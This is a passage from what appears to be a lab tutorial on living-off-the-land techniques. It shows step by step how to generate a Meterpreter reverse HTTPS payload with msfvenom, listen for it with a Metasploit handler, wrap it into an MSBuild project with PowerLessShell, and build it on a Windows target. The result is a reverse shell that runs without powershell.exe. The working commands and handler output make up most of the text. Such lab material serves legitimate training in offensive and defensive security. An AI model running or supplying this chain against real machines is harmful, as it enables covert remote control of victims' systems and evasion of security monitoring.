 Terminal

```shell-session
user@machine$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```

One of the project requirements is to get a PowerShell payload to make it suitable to work with MSBuild. On the AttackBox, we need to generate a PowerShell payload using msfvenom as follows: 

Terminal

```shell-session
user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

Also, we need to run the Metasploit framework to listen and wait for the reverse shell.

Terminal

```shell-session
user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4443
[*] Started HTTPS reverse handler on https://AttackBox_IP:4443
```

Now that we have the payload ready, change to the PowerLessShell directory project to convert the payload to be compatible with the MSBuild tool. Then run the PowerLessShell tool and set the source file to the one we created with msfvenom as follows:

Terminal

```shell-session
user@machine$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Once the command is executed successfully, we need to transfer the output file to the Windows machine. You can do this using the SCP command or set a web server to host the file on the AttackBox (python3 -m http.server 1337) and download the file using the browser.

Finally, on the target Windows machine, build the .csproj file and wait for the reverse shell!

Command Prompt!

```shell-session
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```

Once we run the MSBuild command, wait a couple of seconds till we receive a reverse shell. Note that there will be no powershell.exe process is running.

## Practical
---
